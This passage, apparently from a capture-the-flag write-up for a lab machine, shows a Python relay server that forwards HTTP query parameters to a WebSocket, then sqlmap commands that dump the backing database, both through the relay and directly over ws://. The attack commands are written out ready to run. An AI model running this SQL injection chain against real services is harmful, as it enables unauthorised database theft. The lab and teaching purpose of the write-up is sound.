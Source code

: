 ```python
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()

print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

Here we change the real cookie with the one that we need or `{'id':'*'}` , like this we can run the server from a terminal and then run sqlmap from the other by useing `http://localhost:8081/?id=1` as url

Like this we can extract whatever we want

```bash
# [0] zsh
python3 WebSocketSQLi.py
# [1] zsh
sqlmap -u "http://localhost:8081/?id=*" -p "id" -o --batch --dump --thread 30
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8f5ea073-bae0-4b38-bbc2-ba5d688b8faf/Untitled.png)

Instead we can only use Sqlmap by specifying the argument that we wanna pass through the request with the `--data` flag and specifying the cookie we like.

```python
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 50 --level 5 --risk 3 --batch --dump
```
